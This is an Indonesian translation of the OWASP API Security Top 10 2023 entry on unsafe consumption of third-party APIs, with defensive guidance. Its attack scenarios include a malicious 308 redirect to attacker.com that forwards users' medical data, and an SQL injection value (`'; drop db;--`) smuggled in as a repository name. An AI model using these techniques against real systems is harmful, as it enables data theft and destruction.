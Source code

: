 # API10:2023 Konsumsi API yang Tidak Aman

| Agen Ancaman/Vektor Serangan | Kelemahan Keamanan | Dampak |
| - | - | - |
| Khusus API : Kemungkinan Dieksploitasi **Mudah** | Prevalensi **Umum** : Kemungkinan Dideteksi **Sedang** | Teknis **Serius** : Khusus Bisnis |
| Penyerang perlu mengidentifikasi dan mungkin mengkompromikan API/Layanan lain yang terintegrasi dengan API target untuk mengeksploitasi masalah ini. Biasanya, informasi ini tidak tersedia secara publik atau API/layanan yang terintegrasi tidak mudah dieksploitasi. | Para pengembang cenderung percaya dan tidak memverifikasi endpoint yang berinteraksi dengan API eksternal atau pihak ketiga, mengandalkan persyaratan keamanan yang lebih lemah seperti yang berkaitan dengan keamanan transportasi, otentikasi/otorisasi, dan validasi serta sanitasi input. Penyerang perlu mengidentifikasi layanan yang terintegrasi dengan API target (sumber data) dan, akhirnya, mengkompromikannya. | Dampaknya bervariasi sesuai dengan apa yang dilakukan API target dengan data yang diambil. Eksploitasi yang berhasil dapat menyebabkan paparan informasi sensitif kepada aktor yang tidak diotorisasi, banyak jenis injeksi, atau penolakan layanan. |

## Apakah API Rentan?

Pengembang cenderung lebih percaya data yang diterima dari API pihak ketiga daripada masukan pengguna. Hal ini terutama berlaku untuk API yang ditawarkan oleh perusahaan-perusahaan terkemuka. Karena itu, pengembang cenderung mengadopsi standar keamanan yang lebih lemah, misalnya dalam hal validasi dan sanitasi input.

API mungkin rentan jika:

* Berinteraksi dengan API lain melalui saluran yang tidak terenkripsi;
* Tidak memvalidasi dan menyaring data yang dikumpulkan dari API lain sebelum
  memprosesnya atau melewatkan data tersebut ke komponen yang lebih rendah;
* Mengikuti pengalihan tanpa pertimbangan;
* Tidak membatasi jumlah sumber daya yang tersedia untuk memproses respons layanan pihak ketiga;
* Tidak mengimplementasikan batas waktu untuk interaksi dengan layanan pihak ketiga;

## Contoh Skenario Serangan

### Skenario #1

Sebuah API mengandalkan layanan pihak ketiga untuk memperkaya alamat bisnis yang diberikan oleh pengguna akhir. Ketika alamat diberikan kepada API oleh pengguna akhir, alamat tersebut dikirim ke layanan pihak ketiga dan data yang dikembalikan kemudian disimpan dalam database lokal yang mendukung SQL.

Aktor jahat menggunakan layanan pihak ketiga untuk menyimpan muatan SQLi yang terkait dengan bisnis yang dibuat oleh mereka. Kemudian mereka menyerang API yang rentan dengan memberikan masukan khusus yang membuatnya menarik "bisnis berbahaya" mereka dari layanan pihak ketiga. Muatan SQLi akhirnya dieksekusi oleh database, mengirimkan data ke server yang dikendalikan oleh penyerang.

### Skenario #2

Sebuah API terintegrasi dengan penyedia layanan pihak ketiga untuk menyimpan secara aman informasi medis sensitif pengguna. Data dikirim melalui koneksi aman menggunakan permintaan HTTP seperti di bawah ini:

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Aktor jahat menemukan cara untuk mengkompromikan API pihak ketiga dan mulai memberikan respons `308 Permanent Redirect` untuk permintaan seperti di atas.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Karena API mengikuti pengalihan dari layanan pihak ketiga tanpa mempertimbangkannya, ia akan mengirimkan permintaan yang sama persis termasuk data sensitif pengguna, namun kali ini ke server penyerang.

### Skenario #3

Seorang penyerang dapat menyiapkan repositori git yang diberi nama `'; drop db;--`.

Sekarang, ketika integrasi dari aplikasi yang diserang dilakukan dengan repositori jahat ini, muatan injeksi SQL digunakan pada aplikasi yang membangun kueri SQL yang percaya bahwa nama repositori adalah masukan yang aman.

## Cara Mencegah

* Saat mengevaluasi penyedia layanan, nilai postur keamanan API mereka.
* Pastikan semua interaksi API terjadi melalui saluran komunikasi yang aman (TLS).
* Selalu validasi dan lakukan sanitasi data yang diterima dari API terintegrasi sebelum menggunakannya.
* Pelihara daftar whitelist lokasi yang dikenal API terintegrasi yang dapat mengalihkan
  permintaan Anda: jangan mengikuti pengalihan tanpa pertimbangan.


## Referensi

### OWASP

* [Cheat Sheet Keamanan Layanan Web][1]
* [Kekurangan Injeksi][2]
* [Cheat Sheet Validasi Input][3]
* [Cheat Sheet Pencegahan Injeksi][4]
* [Cheat Sheet Perlindungan Lapisan Transport][5]
* [Cheat Sheet Pengalihan dan Pengalihan Tanpa Validasi][6]

### Eksternal

* [CWE-20: Validasi Input yang Tidak Tepat][7]
* [CWE-200: Paparan Informasi Sensitif kepada Aktor yang Tidak Diotorisasi][8]
* [CWE-319: Pengiriman Teks Terbuka Informasi Sensitif][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html